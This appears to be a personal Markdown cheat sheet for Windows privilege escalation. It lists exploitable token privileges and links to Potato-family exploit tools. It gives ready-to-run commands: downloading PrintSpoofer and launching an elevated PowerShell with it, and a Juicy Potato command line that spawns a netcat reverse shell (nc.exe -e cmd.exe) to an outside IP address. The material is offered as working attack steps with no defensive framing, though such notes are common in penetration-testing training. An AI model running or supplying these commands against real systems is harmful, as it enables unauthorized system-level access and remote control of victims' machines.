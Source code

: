 #priviledgeEscalation #windows 

### Privileges that Lead to PrivEsc

SeBackupPrivilege - Can dump Passwords Using "reg" [[Registry Dump]]
SeAssignPrimaryToken
SeLoadDriver
SeDebug
SeImpersonatePrivilege

```bash
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
```

```powershell
.\PrintSpoofer64.exe -i -c powershell.exe
```

#### GOD Potato
https://github.com/BeichenDream/GodPotato/releases

https://jlajara.gitlab.io/Potatoes_Windows_Privesc#sweetPotato

#### Juicy Potato

```cmd
juicy.potato.x86.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\wamp\www\nc.exe -e cmd.exe 192.168.49.85 443" -t * -c {F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}
```

- CLID list https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise
